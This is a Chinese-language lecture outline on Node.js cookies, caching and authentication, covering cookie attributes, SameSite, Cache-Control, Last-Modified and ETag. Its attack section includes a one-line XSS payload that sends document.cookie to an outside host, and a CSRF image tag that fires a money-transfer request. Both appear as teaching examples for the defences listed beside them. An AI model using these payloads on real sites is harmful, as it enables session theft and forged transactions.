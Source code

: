 # Node缓存、安全与鉴权

## 1. 课程目标
1. node缓存使用 & cookie
2. 常见的鉴权方法

## 2. cookie

cookie作用：
1. 会话状态的管理
2. 个性化设置（主题、自定义）
3. 浏览器行为跟踪 trace、cid

webStorage indexDB
cookie: 存储数据 samesite

```js
set-cookie: cookie名称 cookie值
```

### cookie生命周期
- 会话期Cookie: 随着浏览器的关闭，会删除掉cookie,expires max-age
- 持久性Cookie: expires max-age

### 安全性设置

secure: 只有HTTPS才能携带cookie
httpOnly: 只有服务端才能下发cookie, 本地JS无法操作cookie

document.cookie

### cookie 作用域
domain: origin, 不包含子域名的
path：path=/a path=/a/b path=/a/b/c

### samesite

Set-Cookie:k=v;samesite=XXX

1. none: xianzao.com/a xinazao.com/b none 都是可以获取到cookie
2. strict: 浏览器只有在访问相同站点才会发送cookie
3. lax: 与strict相似，从外部跳转导航至url, 会带有cookie，其他不行

### JS操作cookie

```js
document.cookie = 'user=xianzao'
document.cookie = 'cookie=apple'

console.log(document.cookie)
user=xianzao;cookie=apple
```

### 攻击
- secure
- httpOnly
- samesite

XSS攻击
```js
 (new Image()).src=`http://xianzao.com?cookie=${document.cookie}`
```

httpOnly

CSRF攻击

```js
<img src="http://xianzao.com?account=xianzao&amount=10000">
```
打开的页面含有这个图片

- samesite: strict - 只要不是当前页面都不能过来
- 敏感信息操作都需要认证
- Cookie 设置周期较短， 1min

## 缓存

### 缓存的作用
1. 减少数据请求，节省带宽
2. 加快页面加载速度，提高页面加载效率
3. 减少服务端的压力

### 让你去设置缓存，如何设置

1. 强制缓存
客户端       缓存库         服务器
  1. 请求数据，如果有缓存，直接返回结果
  2. 请求数据，没有缓存，去服务端去调用
  3. 返回数据和缓存规则，将数据放到缓存系统

- expires: http1.0 Date.now()
- cache-control http1.1

为什么又expires还要设置cache-control?
 - 本地的时间是可以设置的，可能导致cookie提前或者稍后失效

 cache-control
 资源有效的最大有效时间，在这段时间里，客户端不会向服务端发请求
 优先级是大于expires

 ```js
  Cache-Control: max-age=20 // 有效期是20s
  // 属性
  1. no-cache：不适用强制缓存，可以使用协商缓存，不是不缓存
  2. no-store：禁止使用任何类型的缓存
  3. public: 任何路径下的缓存者（客户端的本地缓存、proxy代理服务器）无条件地缓存，默认值
  4. private：指定用户或者实体（用户群体）缓存资源
 ```
 优先级 4213
```js
res.setHeader('Cache-Control': 'no-store')
res.setHeader('Cache-Control': 'max-age=20')
```
2. 协商缓存（对比缓存）

- last-modified: 资源最后的修改时间

```js
Last-modified: time
```
1. 服务端在response header中返回last-modified
2. 客户端在浏览器中记录last-modified
3. 下次请求时，浏览器在request header中带上， if-modified-since请求服务器
4. if-modified-since last-modified对比，如果相等直接返回状态码304，如果不相等返回200，返回数据

缺点：
1. 修改时间1s, 1s内更新多次，last-modified
2. 如果文件是服务端动态生成，更新时间就是生成时间，就算内容没有变化，文件每次都要重新获取

- Etag

基于文件设置的唯一的值，文件内容不变， Etag值不变

if-none-match

缺点：
1. 每次请求的时候，都要读取文件，判断有没有修改
2. 如果是大文件，文件的大小+最后修改时间组合成Etag